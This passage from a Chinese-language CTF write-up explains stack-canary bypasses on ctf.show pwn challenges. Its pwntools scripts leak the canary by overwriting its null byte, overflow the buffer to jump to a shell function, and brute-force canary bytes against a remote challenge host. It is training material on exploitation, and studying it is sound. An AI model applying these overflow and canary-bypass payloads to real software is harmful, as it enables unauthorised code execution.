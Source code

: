       ![image-20240630204202081](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202406302042156.png)

   ```python
   from pwn import *
   from LibcSearcher import *
   # 设置系统架构, 打印调试信息
   # arch 可选 : i386 / amd64 / arm / mips
   context(os='linux', arch='amd64', log_level='debug')
   p = process("./test")
   p.recvuntil(b'Hello Hacker!\n')
   #发送var_c-buf+1个 b'a'，最后一个a可以覆盖掉canary的最低字节 b`\x00`
   payload = b'a'*(0x70-0xc+1)
   p.send(payload)
   #接受返回后从行拼接canary
   canary = p.recv()[0x65:0x68]
   canary = canary.rjust(4,b'\x00')
   print(hex(u32(canary)))
   ```

   4. 再利用canary绕过金丝雀。

      ```python
      shell = 0x080491B6
      #canary后面还有0xc个字节才到返回地址，而不是仅查一个ebp(4个字节)
      payload = b'a'*(0x70-0xc)+canary+b'a'*(0x8+4)+p32(shell)
      p.sendline(payload)
      # 与远程交互
      p.interactive()
      ```



### 3. 逐字节爆破

题目地址：[pwn](https://www.ctf.show/challenges#pwn54-4064)

注意：canary爆破时，利用栈溢出，溢出到canary位置，从**低位到高位** 逐次覆盖掉canary的4个字节(一位无法绕过低位字节堆高位进行爆破，所以必须从低到高)，且要求canary不能变化，绕过重开程序canary变化，就不适用爆破了。

1. 函数的主逻辑在ctfshow，前面的函数基本无用，ctfshow中存在栈溢出：

   ![image-20240706175916809](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202407061759907.png)
   
2. 爆破脚本：

   ```python
   from pwn import *
   from LibcSearcher import *
   # 设置系统架构, 打印调试信息
   # arch 可选 : i386 / amd64 / arm / mips
   context(os='linux', arch='amd64', log_level='debug')
   
   for i in range(0xff):
       p = remote("pwn.challenge.ctf.show",28104)
       p.recvuntil(b"How many bytes do you want to write to the buffer?\n>")
       p.sendline(b'100')
       p.recv()
       payload = b'a'*(32)+int.to_bytes(i)
       p.send(payload)
       data = p.recv()
       if b"Canary Value Incorrect!\n" not in  data:
           canary = data
           print(canary,i)
           break
   
   ```

